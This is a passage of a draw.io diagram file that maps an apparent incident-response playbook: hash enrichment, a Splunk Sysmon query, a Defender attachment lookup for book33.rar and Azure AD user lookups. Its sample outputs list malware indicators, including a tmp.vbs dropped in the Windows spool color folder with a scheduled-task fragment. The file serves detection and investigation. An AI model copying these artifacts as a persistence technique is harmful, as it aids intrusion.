        <mxCell id="NKeEgVbL9whLPdXC6YmX-82" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;c:\\windows\\commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks &quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Wscript.Shell&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;d3commander.msi&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-83" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;Endpoint ID :&amp;nbsp;&lt;/p&gt;&amp;nbsp;[&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;]&lt;br&gt;&lt;br&gt;File Path :&amp;nbsp;&lt;br&gt;&lt;br&gt;c:\windows\commander.exe" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="900" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-84" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-83">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="950" y="260" as="sourcePoint" />
            <mxPoint x="1040" y="190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-85" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Algorithm&quot;: &quot;SHA256&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Hash&quot;: &quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Path&quot;: &quot;C:\\windows\\commander.exe&quot;&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="900" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-86" value="Investigation-Enrichment Commander&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1035" y="370" width="240" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-96" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-90" target="NKeEgVbL9whLPdXC6YmX-95">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-90" value="Correlation&lt;br&gt;Stage" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1160" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-92" value="" style="endArrow=classic;html=1;rounded=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-90">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1010" y="300" as="sourcePoint" />
            <mxPoint x="1060" y="250" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-93" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;Data :&amp;nbsp;&lt;/div&gt;[{&quot;Algorithm&quot;:&quot;SHA256&quot;,&quot;Hash&quot;:&quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;,&quot;Path&quot;:&quot;C:\\windows\\commander.exe&quot;}]&lt;br&gt;&lt;br&gt;Title :&amp;nbsp;Commander.exe Enrichment&lt;br&gt;&lt;br&gt;Description :&amp;nbsp;Get the hash value of the executor command.exe&lt;br&gt;&lt;br&gt;Highlight Values :&amp;nbsp;[&quot;AC0CE449E9FCCCC2F1747833C37FF0D1CD22875DD925A247A15F04EE0B318A58&quot;]&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1055" y="490" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-94" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-93" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1170" y="460" as="sourcePoint" />
            <mxPoint x="1160" y="400" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-101" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-95" target="NKeEgVbL9whLPdXC6YmX-100">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-95" value="Splunk Search&lt;br&gt;Command - RSA_SplunkSearch" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1360" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-97" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query :&amp;nbsp;sourcetype=&quot;WinEventLog:Microsoft-Windows-Sysmon/Operational&quot; EventCode=1 Image=&quot;C:\\Program Files\\WinRAR\\WinRAR.exe&quot; {{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[0].EventData.device.hostname&#39;)}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1360" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-98" value="" style="endArrow=none;html=1;rounded=0;entryX=0.471;entryY=1.021;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-95" target="NKeEgVbL9whLPdXC6YmX-97">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1430" y="270" as="sourcePoint" />
            <mxPoint x="1480" y="220" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-99" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1360" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-104" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-100" target="NKeEgVbL9whLPdXC6YmX-103">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-100" value="Get File&lt;br&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1650" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-102" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;book33.rar&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1625" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-108" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-103" target="NKeEgVbL9whLPdXC6YmX-107">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-112" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-103" target="NKeEgVbL9whLPdXC6YmX-111">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-103" value="Get Emails Info&lt;br&gt;Command - RSA_DefenderEnrichment" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1865" y="270" width="175" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-105" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query Items :&amp;nbsp;[&quot;book33.rar&quot;]&lt;br&gt;Query Type : Attachment&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1865" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-106" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Stats&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ExecutionTime&quot;: 2.562,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;resource_usage&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cache&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;disk&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cpu&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kernel&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total cpu&quot;: &quot;00:00:00&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;peak_per_node&quot;: 524384&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataset_statistics&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_row_count&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_size&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Schema&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Timestamp&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;DateTime&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;NetworkMessageId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderFromAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderDisplayName&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientEmailAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;FileName&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;FileType&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SHA256&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;FileSize&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int64&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatTypes&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatNames&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DetectionMethods&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ReportId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Results&quot;: []&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1865" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-118" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-107" target="NKeEgVbL9whLPdXC6YmX-117">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-107" value="Get Sender Email&lt;br&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2150" y="320" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-120" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-111" target="NKeEgVbL9whLPdXC6YmX-119">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-111" value="Get Recipients Email&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2150" y="470" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-113" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;{{PlaybookData | jsonpath(&#39;$.[&quot;Get Emails Info&quot;].returnData.Results[*].SenderFromAddress&#39;)|to_list|unique}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2145" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-114" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2145" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-115" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;{{PlaybookData | jsonpath(&#39;$.[&quot;Get Emails Info&quot;].returnData.Results[*].RecipientEmailAddress&#39;)|to_list|unique}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2150" y="590" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-116" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2150" y="630" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-126" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-117" target="NKeEgVbL9whLPdXC6YmX-125">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-128" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-117" target="NKeEgVbL9whLPdXC6YmX-127">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-117" value="Get Emails from Senders" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2455" y="320" width="195" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-135" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-119" target="NKeEgVbL9whLPdXC6YmX-134">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-137" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-119" target="NKeEgVbL9whLPdXC6YmX-136">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-119" value="Get User Information from Azure AD" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2455" y="470" width="205" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-121" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query Item : [&quot;&quot;]&lt;br&gt;Query Type :&amp;nbsp;Sender Email&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2452.5" y="110" width="200" height="100" as="geometry" />
        </mxCell>
